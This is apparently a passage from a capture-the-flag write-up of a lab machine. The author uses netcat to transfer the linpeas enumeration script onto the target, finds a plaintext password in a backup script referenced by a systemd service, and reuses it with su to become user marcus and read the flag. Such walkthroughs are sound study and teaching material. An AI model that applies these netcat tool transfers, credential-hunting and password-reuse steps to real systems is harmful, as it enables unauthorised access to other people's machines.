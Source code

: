 Listener: www-data@monitors:/dev/shm$ nc -lp 4433 > linpeas.sh
Transfer: [root:/opt/scanners/linux]# nc -w3 10.10.10.238 4433 < linpeas.sh

Running linpeas doesn't give anything of real use however..
Moving on and manually looking in /home/marcus we see the directory .backup, but we lack privs to see what's in it.

  www-data@monitors:/home/marcus$ ls -al
    total 40
    drwxr-xr-x 5 marcus marcus 4096 Jan 25 15:39 .
    drwxr-xr-x 3 root   root   4096 Nov 10 17:00 ..
    d--x--x--x 2 marcus marcus 4096 Nov 10 18:21 .backup
    lrwxrwxrwx 1 root   root      9 Nov 10 18:30 .bash_history -> /dev/null
    -rw-r--r-- 1 marcus marcus  220 Apr  4  2018 .bash_logout
    -rw-r--r-- 1 marcus marcus 3771 Apr  4  2018 .bashrc
    drwx------ 2 marcus marcus 4096 Jan 25 15:39 .cache
    drwx------ 3 marcus marcus 4096 Nov 10 17:00 .gnupg
    -rw-r--r-- 1 marcus marcus  807 Apr  4  2018 .profile
    -r--r----- 1 root   marcus   84 Jan 25 14:59 note.txt
    -r--r----- 1 root   marcus   33 May  9 15:30 user.txt

We can search the entire system to see if there are any file or service that have an absolute path to '/home/marcus/.backup'
NOTE: This is very unoptimized and will take several minutes.

  www-data@monitors:/$ grep -Ril "/home/marcus/.backup" 2> /dev/null
    /etc/systemd/system/cacti-backup.service

  www-data@monitors:/$ cat /etc/systemd/system/cacti-backup.service
    [Unit]
    Description=Cacti Backup Service
    After=network.target

    [Service]
    Type=oneshot
    User=www-data
    ExecStart=/home/marcus/.backup/backup.sh

    [Install]
    WantedBy=multi-user.target

Lets try if we can read the file backup.sh:
  www-data@monitors:/$ cat /home/marcus/.backup/backup.sh
    #!/bin/bash

    backup_name="cacti_backup"
    config_pass="VerticalEdge2020"

    zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
    sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
    rm /tmp/${backup_name}.zip

A new set of creds! cacti_backup:VerticalEdge2020 - lets try if user marcus use the same password.

  www-data@monitors:/$ su marcus
    Password: VerticalEdge2020
    marcus@monitors:/$ id
      uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
    marcus@monitors:/$ cat /home/marcus/user.txt
      20914feda0c2c461a15461b4a650c321
